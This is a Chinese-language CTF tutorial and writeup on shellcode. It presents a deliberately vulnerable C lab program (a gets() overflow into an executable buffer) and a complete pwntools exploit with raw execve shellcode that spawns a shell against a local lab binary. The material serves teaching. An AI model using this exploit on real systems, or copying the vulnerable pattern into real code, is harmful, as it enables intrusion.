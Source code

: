 ```yaml
---
title: "Day11－Shellcode"
date: 2024-09-11
draft: false
tags: ["iron-man-2024", "pwn", "binary-exploitation"]
categories: ["security-research"]
author: "YJK"
showToc: true
TocOpen: false
---
```



## 前言

從今天開始，內容會變得更加困難。之前的題目可能有留一個後門函式，讓你可以直接開啟 shell，或是使用 `system` 函式來方便後續的操作。然而，現實中基本不會有這種情況，所以我們需要學習更多漏洞利用的方法，才能更符合實際的需求。

## Shellcode

根據之前提到的編譯過程，經過簡化後，最終會變成下圖所示的形式：

![image](/images/iron2024/day11_image1.png)

簡單來說，最後真正執行的部分是機器碼，而這正是本章節要教授的內容：Shellcode。之所以稱為 Shellcode，是因為我們透過編寫 Assembly 程式碼，將參數寫入指定的位置，並最終呼叫 `syscall`，來達成我們的目標，例如開啟 shell 或讀取特定檔案。


## Syscall

`syscall` 即為 System Call，是用來與 Kernel 進行溝通的呼叫。在 CTF 中，常見的有以下兩種：

- `execve("/bin/sh", NULL, NULL)`
- `open`、`read`、`write`

這些可以分別用來啟動 shell 或進行任意的檔案讀寫。這個[網站](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md)可以幫助查詢呼叫各種 `syscall` 時應該將各個暫存器設置為什麼值，這與前面提到的 Calling Convention 是相關的。

## 如何編寫 Shellcode？

編寫 Shellcode 有幾種方法，以下是幾個選項：

1. 自己寫 Assembly，並透過 `pwntools` 進行轉換。
2. 從 [shellcode database](https://shell-storm.org/shellcode/index.html) 中找到需要的 Shellcode。
3. 使用 `pwntools` 中的 [shellcraft](https://docs.pwntools.com/en/stable/shellcraft/amd64.html)，記得指定 `context.arch`。

## Lab

查看以下程式原始碼：

```c=
#include<stdio.h>
#include <unistd.h>
#include <sys/mman.h>
char shellcode[0x100];
int main(){
    setvbuf(stdout, 0, _IONBF, 0);
    setvbuf(stdin, 0, _IONBF, 0);
    setvbuf(stderr, 0, _IONBF, 0);
    unsigned long addr = (unsigned long)&shellcode & ~0xfff;
    mprotect((void *)addr, 0x1000, PROT_EXEC | PROT_READ | PROT_WRITE);
    printf("Give me shellcode: ");
    read(0, shellcode, 0x100);
    printf("Overflow me: ");
    char buffer[0x10];
    gets(buffer);
    printf("Bye!\n");
    return 0;
}
```

使用以下指令進行編譯：

```sh=
gcc src/orw.c -o ./orw/share/orw -fno-stack-protector -no-pie
```

你可以自行嘗試這個題目，或繼續閱讀以下解題步驟。

## Writeup

首先可以看到程式使用了 `gets` 函式，存在 Buffer Overflow 的風險。根據編譯參數可以確認程式關閉了 PIE 與 Canary，此外程式還使用了 `mprotect` 來修改記憶體的權限，將 `shellcode` 變數的記憶體區域設為可讀、可寫、可執行。這意味著，即使程式開啟了 NX 保護，我們仍然可以寫入並執行 Shellcode。這是因為新版本的 OS 在 `.bss` 段僅有讀取權限，因此為了這個 Lab，我們才修改了權限。

基於上述觀察，我們可以整理出兩個重點：

1. 我們可以將 Shellcode 寫入變數中。
2. 由於沒有開啟 PIE，可以透過 `gets` 的 Buffer Overflow 將 Return Address 覆寫為 Shellcode 的位址。

為了達成這些目標我們需要確定幾件事情

1. 如何編寫 Shellcode？
2. 如何找到 `shellcode` 變數的位址？

前面提到我們可以使用 `pwntools` 的 `shellcraft` 產生 Shellcode，但需要注意的是，`shellcraft` 產生的 Shellcode 有時候可能會過長，這時就可能需要使用 `shellcode database` 或自行撰寫短一點的 Shellcode，來符合題目對字元數量的限制。例如，以下的 AMD64 開啟 shell 的 Shellcode 長度為 48 字節，已經足夠應付這道題目。

![image](/images/iron2024/day11_image2.png)

接下來，我們需要確定如何找到 `shellcode` 變數的位址。你可以使用 `objdump` 來查看，但這裡我使用另一個工具 `nm`，它可以顯示檔案的符號資訊。透過執行 `nm ret2sc | grep "shellcode"`，可以輕鬆得知 `shellcode` 的位址為 `0x404080`。

![image](/images/iron2024/day11_image3.png)

到此為止，我們已經掌握了所有獲取 Shell 的關鍵資訊，接下來可以開始撰寫 Exploit。

完整 exploit：
以下是完整的 Exploit 程式碼，我也附上另一個 Shellcode，供讀者測試。

```py=
from pwn import *
context.arch = 'amd64'
#r = process('../ret2sc/share/ret2sc')
r = remote('127.0.0.1', 10003)
shellcode = asm(shellcraft.sh())
#shellcode = b'\31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'
r.sendlineafter(b': ', shellcode)
payload = b'A' * (0x20 + 8) + p64(0x404080)
r.sendlineafter(b': ', payload)
r.recvuntil(b'!\n')
r.interactive()
```

solved！！

![image](/images/iron2024/day11_image4.png)

